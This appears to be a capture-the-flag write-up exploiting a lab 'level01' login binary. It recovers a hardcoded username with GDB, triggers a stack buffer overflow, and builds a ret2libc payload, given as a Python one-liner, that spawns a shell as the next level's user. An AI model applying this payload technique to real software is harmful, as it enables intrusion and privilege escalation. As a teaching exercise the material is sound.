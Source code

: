
# Level01 - Exploiting a Login Bypass with Buffer Overflow

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: coucou
verifying username....

nope, incorrect username...
```

The program prompts for a username and indicates that the entered username is incorrect.

## Step 2: Analyzing with GDB

To understand how the program works, let's analyze it using GDB (GNU Debugger):

```bash
$ gdb -q ./level01
```

## Step 3: Finding the Username Check

Within GDB, you can identify that the program uses `fgets` for input, and a function `verify_user_name` checks the username:

```assembly
0x08048528 <+88>: call   0x8048370 <fgets@plt>
0x0804852d <+93>: call   0x8048464 <verify_user_name>
```

The function performs a manual comparison equivalent to `strncmp` with the string `dat_wil`:

```assembly
(gdb) disass verify_user_name
0x0804846c <+8>: mov    DWORD PTR [esp],0x8048690    <--- "verifying username....\n"
0x08048473 <+15>: call   0x8048380 <puts@plt>
0x08048478 <+20>: mov    edx,0x804a040    <--- "dat_wil\n"
0x0804847d <+25>: mov    eax,0x80486a8    <--- "dat_wil"
```

### Step 4: Enter the Correct Username

Now, run the program again and enter the correct username:

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
```

The program accepts the username and prompts for a password.

## Step 5: Finding the Password Check

The password is checked by the `verify_user_pass` function after another `fgets` call:

```assembly
0x08048574 <+164>: call   0x8048370 <fgets@plt>
0x08048580 <+176>: call   0x80484a3 <verify_user_pass>
```

This function compares the input with the string `admin`, but entering `admin` doesn't work.

## Step 6: Buffer Overflow Vulnerability

Inspecting the code shows that `fgets` reads up to 100 characters into a 16-byte buffer, causing an overflow. The buffer overflow allows us to overwrite the return address.

### Triggering the Overflow

Run the program with an overly long input:

```bash
(gdb) r
Starting program: ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbb
```

The program crashes with a segmentation fault, indicating control over the instruction pointer.

## Step 7: Exploiting with Ret2libc

With the overflow, we can perform a Ret2libc attack. We need addresses for `system`, `exit`, and the string `"/bin/sh"`:

1. Address of `/bin/sh`: `0xf7f897ec`
2. Address of `system`: `0xf7e6aed0`
3. Address of `exit`: `0xf7e5eb70`

### Building the Payload

Construct the payload using the discovered addresses:

```bash
("B" * 80) + "system" + "ret = exit" + "/bin/sh"
```

Execute the attack:

```bash
$ python -c 'print "dat_wil\n" + "B" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' > /tmp/payload
$ cat /tmp/payload - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
$ whoami
level02
```

## Summary

- The program checks username and password using manual comparisons.
- Buffer overflow allows overwriting the return address.
- Ret2libc attack is used to execute `/bin/sh`.

This approach allows bypassing the login and gaining elevated access.
